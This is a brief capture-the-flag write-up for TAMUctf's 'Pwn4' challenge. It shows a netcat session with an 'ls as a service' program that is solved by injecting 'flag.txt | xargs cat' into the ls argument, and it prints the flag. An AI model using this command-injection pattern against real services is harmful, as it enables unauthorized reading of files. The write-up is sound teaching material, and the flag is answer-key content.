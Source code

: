 # Pwn4

## Points
446

## Description
nc pwn.tamuctf.com 4324

Difficulty: medium

[pwn4](https://tamuctf.com/files/503332ee71bed3f13b00ec33747bbef2/pwn4)

## Solution
netcat for Windows https://eternallybored.org/misc/netcat/
```sh
λ nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:

Result of ls :
flag.txt
pwn4
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
flag.txt | xargs cat
Result of ls flag.txt | xargs cat:
gigem{5y573m_0v3rfl0w}
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
```

## Flag
`gigem{5y573m_0v3rfl0w}`